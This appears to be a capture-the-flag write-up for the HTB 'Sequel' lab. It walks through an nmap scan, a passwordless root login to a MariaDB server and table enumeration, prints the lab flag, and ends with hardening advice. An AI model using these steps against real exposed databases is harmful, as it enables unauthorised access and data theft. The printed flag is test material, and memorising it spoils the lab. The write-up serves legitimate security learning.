






:::caution[Machine Information]
- **Platform:** HTB
- **Lab:** Starting Point
- **OS:** Linux
- **Difficulty:** Very Easy
- **IP:** `10.129.x.x` (your assigned IP)
:::

---

# Step 0: Getting Started



```bash
mkdir -p HTB/LAB/SEQUEL && cd HTB/LAB/SEQUEL
IP=10.129.x.x && ping -c 2 $IP
```

If you don't understand what I'm doing here;

- [GO! `Step 0: Getting Started` section. -> Meow](https://www.cybalp.me/ctf/writeups/htb-meow/#step-0-getting-started)
- [GO! `Step 0: Getting Started` section. -> Fawn](https://www.cybalp.me/ctf/writeups/htb-fawn/#step-0-getting-started)

Check out the headings in the links.

---

# Step 1: Recon



```bash
nmap -sC -sV $IP
```

**Expected:** `3306/tcp` open — **MySQL** -> Version **MariaDB** OK!
The service you care about is the database listener.

---

# Step 2: Connect to the database

Try connecting as **`root`** with **no password** (empty password). This is a classic **misconfiguration**: remote `root` login allowed without authentication.




```bash
mariadb -u root -h $IP --skip-ssl
```

> Our local MariaDB client attempted to establish an encrypted connection (SSL) by default, but we received an ERROR 2026 because the target server does not support it. To bypass this security check and establish the connection, we used the `--skip-ssl` parameter.

You should get a `mysql>` prompt. If connection is refused, recheck VPN, IP, and that the machine is fully booted.

---

# Step 3: Enumerate and grab the flag

Inside the MySQL shell:



```sql
SHOW DATABASES;
```

You should see system schemas plus a **`htb`** database (alongside `information_schema`, `mysql`, `performance_schema`).



```sql
USE htb;
SHOW TABLES;
SELECT * FROM users;
```

We've logged in as the admin user. However, here we can only access users' emails. There's no flag.

You should see a **`config`** table (key–value style data). Let’s make our move.



```sql
SELECT * FROM config;
```

The **flag** is in the result set.

# Flag and finish

```
7b4bec00d1a39e3dd4e021ec3d915da8
```

**Takeaway:** Never expose **MariaDB/MySQL** to the network with **`root` and no password** (or weak defaults). Restrict bind address, firewall **3306**, use strong credentials, and disable remote root if not needed.

That was the lesson to be learnt.

# and good night “sequel”..